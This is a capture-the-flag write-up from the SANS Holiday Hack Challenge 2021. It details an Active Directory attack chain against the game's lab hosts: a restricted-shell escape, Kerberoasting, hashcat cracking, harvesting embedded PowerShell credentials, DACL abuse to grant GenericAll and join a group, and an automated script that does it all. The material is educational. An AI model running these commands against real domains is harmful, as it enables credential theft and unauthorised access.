 # Objective 8: Kerberoasting on an Open Fire
**Location: Staging**  
**Elf: Jingle Ringford**  
**Hints provided by Eve Snowshoes after completion of [HoHo ... No](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md)**

The objective to obtain a secret research document.
In order to get an account in the ELFU AD domain, a registration on https://register.elfu.org is required.
After that an individual username and password is provided which can be used to logon to grades.elfu.org using SSH on port 2222.

### Escaping Application
After the SSH login an application is automatically started.
It is possible to escape this application by sending an EOF (CTRL-D).

### Escaping Python Shell
After this a Python shell is displayed.
In order to escape this `os.system.("bash")` has to be submitted in order to get to a normal Unix shell.

### Reconnaissance
An nmap scan of the network 10.128.0.0/22 reveals two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares `elfu_svc_shr` and `research_dep`.


### Pulling data from AD
Next the tool `ldapdomaindump` can be used in order to get an idea of the user<->group<->permission structure:
```
ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
```
This can be done manually or using Bloodhound.
Bloodhound also reveals that the user `elfu_svc` is Kerberoastable.

The password hash for this Kerberoastable user can be obtained by running
```
GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
```

### Cracking the Password
We follow the hints and prepare the password cracking as follows:
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:
```
./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
```
In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:
```
curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```
Equipped with these tools, we can let Hashcat crack the password:
```
hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
```

Hashcat finds the password for `elfu_svc` to be `Snow2021!`.

### Access to elfu_svc_shr
With this information we can get access to the elfu_svc_shr file share on 10.128.3.30:
```
smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
```
On this share are several Powershell scripts. One of them, `GetProcessInfo.ps1`, holds credentials for the user `remote_elf`:
```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
```

### Getting into group Research Department
With the `remote_elf` credential snippet from the script, we can grant our windows domain user the `GenericAll` permissions for the group Research Department (based on [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) provided by Chris Davis, a Kringle Con speaker) :
```powershell
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $propGUID = [guid]'00000000-0000-0000-0000-000000000000'
  $IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
  $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
  $ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
  $domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
  $secOptions = $domainDirEntry.get_Options()
  $secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
  $domainDirEntry.RefreshCache()
  $domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
and add then our user to this group:
```powershell
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
  Add-Type -AssemblyName System.DirectoryServices
  $ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
  $username = "{userid}"
  $password = "{password}"
  $domainDirEntry = New-Object   System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
  $user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
  $sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
  $b=New-Object byte[] $sid.BinaryLength
  $sid.GetBinaryForm($b,0)
  $hexSID=[BitConverter]::ToString($b).Replace('-','')
  $domainDirEntry.Add("LDAP://<SID=$hexSID>")
  $domainDirEntry.CommitChanges()
  $domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
```
### Access to research_dep share
After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:
```
smbclient '\\10.128.3.30\research_dep'
smb: \> dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
```

The [PDF document](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/SantaSecretToAWonderfulHolidaySeason.pdf) lists **Kindness** as first secret ingredient for a wonderful holiday season.

---
### Bonus: Automation - Kerberoboting
This whole process was automated in an `expect` [script](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Objective-8/kerberoboting) named `kerberoboting`, so that you can enjoy a brew whilst your computer does the work.
It just requires you to register at https://register.elfu.org, have `hashcat` installed in the PATH and a working CeWL in the local directory:
```
joergen@northpole:~$ ./kerberoboting jsfdgdsjjl 'Ndcopkmbo#'
#
# Kerberoboting in progress - get a brew and lean back
#

Retrieving the wordlist from register.elfu.org using CeWL
Retrieving the OneRuleToRuleThemAll rule for Hashcat
Logging on to grades.elfu.org using SSH
Escaping the application using <EOF>
Escaping the Python shell using os.system('bash')
These shares are available on the file server
smbclient -L '\\\\10.128.3.30'
Enter WORKGROUP\jsfdgdsjjl's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
Running GetUserSPNs.py using my user id to enumerate SPNs linked to user accounts and get their password hashes
Running Hashcat to crack the password
  ok. Password is Snow2021!
Getting access to samba \\\\10.128.3.30\elfu_svc_shr share as user elfu_svc
Obtaining file GetProcessInfo.ps1 which has credentials for remote_elf embedded
Granting myself GenericAll permissions on AD group Research Department and adding myself to it
Getting access to samba \\\\10.128.3.30\research_dep using my user id
dir
  .                                   D        0  Thu Dec  2 16:39:42 2021
  ..                                  D        0  Fri Dec 24 08:01:27 2021
  SantaSecretToAWonderfulHolidaySeason.pdf      N   173932  Thu Dec  2 16:38:26 2021

		41089256 blocks of size 1024. 34373492 blocks available
smb: \\> Getting file SantaSecretToAWonderfulHolidaySeason.pdf
Transferring file SantaSecretToAWonderfulHolidaySeason.pdf to local machine

#
# Have fun and explore more
#

jsfdgdsjjl@grades:~$ 
```

You can see `kerberoboting` in action here: https://asciinema.org/a/458522

**Achievement: Kerberoasting on an Open Fire**
